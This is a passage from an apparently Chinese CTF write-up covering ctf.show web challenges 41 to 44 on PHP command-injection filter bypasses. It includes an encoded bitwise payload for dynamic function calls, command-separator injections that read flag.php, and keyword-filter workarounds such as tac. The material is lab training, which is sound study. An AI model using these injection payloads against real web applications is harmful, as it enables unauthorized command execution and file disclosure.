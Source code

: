 其中 0-15 的 ASCII 码对应的十六进制是单个字符, 需要在前面补零, 然后再改写成 URL 编码的形式

而代码执行的原理在 p神的文章里有写, 这里的版本恰好是 PHP7

> PHP7 前是不允许用 `($a)();` 这样的方法来执行动态函数的，但 PHP7 中增加了对此的支持。所以，我们可以通过 `('phpinfo')();` 来执行函数，第一个括号中可以是任意 PHP 表达式。

生成的 payload 如下

```
("%60%60%60%60%60%60"|"%13%19%13%14%25%0d")("%60%60%60%20%60%60%60%60%2e%60%60%60"|"%23%21%14%20%06%2c%21%27%2e%10%28%10")
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081418344.png)

## web42

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081420543.png)

将命令输出重定向到 /dev/null (无法回显)

一些命令分隔符

```
cmd1 | cmd2 只执行 cmd2
cmd1 || cmd2 只有当 cmd1 执行失败后, 才执行 cmd2
cmd1 & cmd2 先执行 cmd1, 不管是否成功, 都会执行 cmd2
cmd1 && cmd2 先执行 cmd1, 执行成功后才执行 cmd2, 否则不执行
cmd1;cmd2 按顺序依次执行,  先执行 cmd1 再执行 cmd2
```

payload

```
http://559633f0-4f44-467c-8fbc-4f2f9870e424.challenge.ctf.show/?c=cat flag.php;echo 1
http://559633f0-4f44-467c-8fbc-4f2f9870e424.challenge.ctf.show/?c=cat flag.php||echo 1
http://559633f0-4f44-467c-8fbc-4f2f9870e424.challenge.ctf.show/?c=cat flag.php&echo 1
http://559633f0-4f44-467c-8fbc-4f2f9870e424.challenge.ctf.show/?c=cat flag.php&&echo 1
```

或者是用 `%0a` 换行符

`http://559633f0-4f44-467c-8fbc-4f2f9870e424.challenge.ctf.show/?c=cat flag.php%0a`

## web43

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081432061.png)

cat 和 `;` 被过滤了

使用 tac 绕过

## web44

又过滤了 flag
